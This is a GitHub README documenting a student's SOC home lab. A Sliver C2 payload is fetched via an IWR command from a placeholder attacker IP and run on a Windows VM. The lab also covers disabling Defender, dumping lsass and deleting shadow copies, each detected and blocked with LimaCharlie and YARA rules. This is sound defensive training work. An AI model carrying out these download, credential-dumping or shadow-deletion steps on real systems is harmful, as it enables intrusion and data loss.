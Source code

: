 <h1>SOC Analyst Home Lab</h1>


<h2>Description</h2>
Security Operations Center (SOC) analysts play a crucial role in maintaining the security posture of organizations by monitoring, analyzing, and responding to security incidents. While looking for projects to gain hands on experience outside of my academic labs I heard about this project from Eric Capuano (Recon InfoSec) via Gerald Auger (SimplyCyber) . Eric's substack blog "So you want to be a SOC Analyst" was a great resource; explaining the scope, process and execution of creating a home SOC lab where I accomplished the following :
<br/><br/>
- Configured VMware with Windows and Ubuntu VMs<br/>
- Managed Windows VM: disabled Defender, prevented standby, installed Sysmon, and deployed LimaCharlie EDR<br/>
- Set up Sliver C2 server on Ubuntu VM, executed payload on Windows, and analyzed EDR telemetry<br/>
- Developed & implemented blocking rule in LimaCharlie, proficient in crafting detection rules, and used baselining to reduce false positives<br/>
- Automated YARA scanning in LimaCharlie, developed rules for scanning files and processes, and created D&R rules for new .exe files in Downloads<br/>

<br />


<h2>Environments and Utilities Used</h2>

- <b>VMWare WorkStation 16 Pro</b>
- <b>Windows 11 DevEval</b>
- <b>Ubuntu Server 22.04.1</b>
- <b>LimaCharlie EDR</b>
- <b>Sliver Command & Control (C2) Server</b>
- <b>PowerShell</b> 
- <b>Windows Command Prompt & Linux Terminal</b>


<h2>Project walk-through:</h2>

<p align="center">
To start things off I already had VMWare Workstation and just had to acquire ISO's for Windows 11 DevEval and Ubuntu Server from their respective websites. <br />
<br />
Setting up the Ubuntu Server was quick and easy, just had to get the virtual network's SubNet IP and Gateway IP to setup manual ipv4 instead of dhcp, note our static ip for remote SSH conenction, and install OpenSSH server.<br />
<br />
When setting up the Windows VM you may think you can just disable Defender in settings and you would be wrong. To accomplish this you must also turn off microsoft defender antivirus in the Local Group Policy Editor, reboot in safe-mode to make some changes to the registry to disable AntiSpyware and disable a few services in regedit (Sense, WdBoot, WinDefend, WdNisDrv, WdNisSvc, and WdFilter). Next task was to prevent the VM from going into standby done by administrative command prompt to change the powercfg. Using an Administrative PowerShell I downloaded and installed Sysmon with SwiftOnSecurit's Sysmon config.<br />
<br />
Installing LimaCharlie EDR required making and account on their site and creating an organization. 
<br />
<br /> 
Creating the Sensor for Windows VM: <br/>
<img src="https://i.imgur.com/DmC3QXn.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Installing the Sensor via PowerShell using code given by LimaCharlie:  <br/>
<img src="https://imgur.com/hRMlOL9.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Configured rule for the new sensor to send SysMon event logs with it's EDR telemtry: <br/>
<img src="https://imgur.com/6hrkryg.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Remote SSH connection to Ubuntu Server from Windows VM to Install, Setup, and Control Sliver C2 Server: <br/>
<img src="https://imgur.com/xg37JJg.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Generated C2 Session Payload using Linux VM's static IP on Sliver. <br />
To get the payload onto the Windows VM I setup and downloaded from a temporary web server using commands in PowerShell: <br />
python3 -m http.server 80 <br />
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
<br />
Started Sliver Command and Control Session via SSH connection ie HTTP listener
<br />
Executed the C2 Payload on the Windows VM. Verified it's Session ID on Sliver and interacted with the session. Ran commands including info, whoami, getprivs, pwd, netstat, and ps -T.
<br />
<br />
Back in LimaCharlie I observed the EDR Telemtry gathered from the above actions (payload was named TINY_SENSE):  <br/>
<img src="https://imgur.com/JjSzLA2.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Checked hash of payload's exe and scanned it with VirusTotal. Item not found because our attacker C2 generated it on the spot:  <br/>
<img src="https://imgur.com/Xl3GNLr.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Using Sliver I went after credentials and dumped the lsass.exe process from memory and saved it to my Sliver C2 server. <br/>
 <br />
 LimaCharlie generated a sensitive process access event for lsass.exe dump as it is a common attack vector:  <br/>
<img src="https://imgur.com/nQBNoIC.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
 Created a custom D&R rule in LimaCharlie to generate a detection report:  <br/>
<img src="https://imgur.com/Gh9yYPQ.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
 Ran the lsass.exe dump again from Sliver to see if LimaCharlie detected it and was successful:  <br/>
<img src="https://imgur.com/t3ApQnE.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
 Next attack was vssadmin delete shadows /all and this was also detected by LimaCharlie with reference containing a YARA signature:  <br/>
<img src="https://imgur.com/0wZEx5d.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Created new D&R rule that not only reports but blocks the attack:  <br/>
<img src="https://imgur.com/eHLF7EC.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Created a YARA signature for the Sliver C2 Payload:  <br/>
<img src="https://imgur.com/LndMssj.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Used LimaCharlie EDR Sensor Console to run manual YARA scan of the Sliver Payload Exe:  <br/>
<img src="https://imgur.com/m39cVjD.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Created new rules to automatically scan downloaded EXEs and processes launched from Downloads directory:  <br/>
<img src="https://imgur.com/sdDwFsJ.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Tested new automatic yara scan rules by relaunching Sliver C2 Payload "TINY_SENSE.EXE":  <br/>
<img src="https://imgur.com/Lx1Feuk.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
This Project was a lot of fun and I learned a lot that expanded on my previous knowledge of Packet Capture and Analysis with nmap and wireshark. In my excitement running Sliver and playing both sides of attacker and attackee I forgot a few screenshots of it's use. Thank you to Eric Capuano for creating one of the best Lab Projects I have done yet.
</p>

<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
